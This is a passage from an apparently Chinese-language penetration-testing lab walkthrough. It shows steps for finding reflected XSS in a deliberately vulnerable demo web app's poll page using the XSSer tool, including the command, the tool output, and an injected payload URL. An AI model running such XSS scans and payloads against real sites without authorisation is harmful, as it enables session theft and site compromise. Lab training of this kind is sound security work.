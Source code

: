 切换到firefox浏览器观察结果

XSS 有效负载被触发。

第 16 步：关闭 Burp Suite “拦截”

针对 GET 请求的 XSS 攻击
第 17 步：让我们对 GET 请求执行 XSS 攻击。导航到跨站点脚本 (XSS) > Reflected (First Order) > Poll Question网页。

网址

```
http://demo.ine.local/index.php?page=user-poll.php
```

第 18 步：选择任何“nmap”选项（按单选按钮），在您的姓名缩写文本字段中填写“d”并提交投票。

值“nmap”反映在网页上。

第 19 步：复制 URL，将“nmap”值替换为“XSS”并将其传递给 XSSer。

网址

```
http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=nmap&initials=d&user-poll-php-submit-button=Submit+Vote
```
命令

```
xsser --url "http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote"
```

```
===========================================================================
[*] List of XSS injections:
===========================================================================

-> CONGRATULATIONS: You have found: [ 1 ] possible XSS vector! ;-)

---------------------

[+] Target: http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=XSS&initials=d&user-poll-php-submit-button=Submit+Vote
[+] Vector: [ choice ]
[!] Method: URL
[*] Hash: f925bf33e2f169a73511f112c4b9670a
[*] Payload: http://demo.ine.local/index.php?page=user-poll.php&csrf-token=&choice=%22%3Ef925bf33e2f169a73511f112c4b9670a&initials=d&user-poll-php-submit-button=Submit+Vote
[!] Vulnerable: [IE7.0|IE6.0|NS8.1-IE] [NS8.1-G|FF2.0] [O9.02]
[!] Status: XSS FOUND! [WITHOUT --reverse-check VALIDATION!] 
 -------------------------------------------------- 
```
输出确认目标易受攻击。

第 20 步：向 XSSer 提供基本的 XSS 有效负载。

命令
